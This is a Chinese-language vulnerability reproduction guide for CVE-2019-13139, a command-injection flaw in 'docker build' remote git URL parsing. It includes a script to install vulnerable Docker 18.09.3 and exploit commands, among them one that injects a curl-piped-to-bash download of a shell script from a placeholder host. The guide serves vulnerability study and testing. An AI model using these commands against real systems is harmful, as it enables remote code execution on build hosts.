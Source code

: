 # Docker build 漏洞导致命令执行 CVE-2019-13139

## 漏洞描述

使用 `docker build` 命令构建本地镜像时，支持使用远程 url 参数作为构建环境，并且这个远程构建环境可以是一个 git 仓库。

在 Docker 18.9.4 之前版本中，`docker build` 过程中对 `remoteUrl` 解析存在缺陷，导致了 `remoteUrl` 中的部分字符串会被作为命令执行。

参考链接：

  - https://nvd.nist.gov/vuln/detail/CVE-2019-13139
  - https://staaldraad.github.io/post/2019-07-16-cve-2019-13139-docker-build/
  - https://github.com/Metarget/metarget

## 漏洞影响

```
Docker < 18.9.4
```

## 环境搭建

ubuntu 18.04 使用以下脚本 `install_docker_18.09.03.sh` 安装 Docker 18.9.3：

```
#!/bin/bash
set -e
echo "[*] Removing old Docker versions (if any)..."
sudo apt remove -y docker docker-engine docker.io containerd runc || true

echo "[*] Removing incorrect Docker sources..."
sudo rm -f /etc/apt/sources.list.d/docker.list || true
sudo sed -i '/download.docker.com/d' /etc/apt/sources.list

echo "[*] Adding Tsinghua University Docker mirror GPG key..."
wget -qO - https://mirrors.tuna.tsinghua.edu.cn/docker-ce/linux/ubuntu/gpg | sudo apt-key add -

echo "[*] Adding Tsinghua University Docker mirror repository..."
echo "deb [arch=amd64] https://mirrors.tuna.tsinghua.edu.cn/docker-ce/linux/ubuntu bionic stable" \
  | sudo tee /etc/apt/sources.list.d/docker.list

echo "[*] Updating package index..."
sudo apt update

echo "[*] Searching for Docker 18.09.3..."
VERSION_STRING=$(apt-cache madison docker-ce | grep 18.09.3 | head -n1 | awk '{print $3}')
if [ -z "$VERSION_STRING" ]; then
  echo "[*] Docker 18.09.3 not found"
  exit 1
fi
echo "[*] Found version: $VERSION_STRING"

echo "[*] Installing Docker version $VERSION_STRING ..."
sudo apt install -y docker-ce=$VERSION_STRING docker-ce-cli=$VERSION_STRING containerd.io

echo "[*] Locking version to prevent automatic updates..."
sudo apt-mark hold docker-ce docker-ce-cli containerd.io

echo "[*] Installation complete, current version:"
docker --version
```

![](images/Docker%20build%20漏洞导致命令执行%20CVE-2019-13139/image-20250421090739097.png)

## 漏洞复现

执行相关利用命令，执行结果报错但不影响:

```
docker build "git@g.com/a/b#--upload-pack=touch 13139.txt;:"
```

查看命令是否执行成功：

```
ls | grep 13139
------
13139.txt
```

![](images/Docker%20build%20漏洞导致命令执行%20CVE-2019-13139/image-20250421090836057.png)

下载远程 shell 文件并执行：

```
# port must be 80
docker build "git@github.com/a/b#--upload-pack=curl -s your-ip/shell.sh|bash;#:"
```

![](images/Docker%20build%20漏洞导致命令执行%20CVE-2019-13139/image-20250421092642068.png)

## 漏洞修复

- 升级至最新版本 https://docs.docker.com/engine/release-notes/
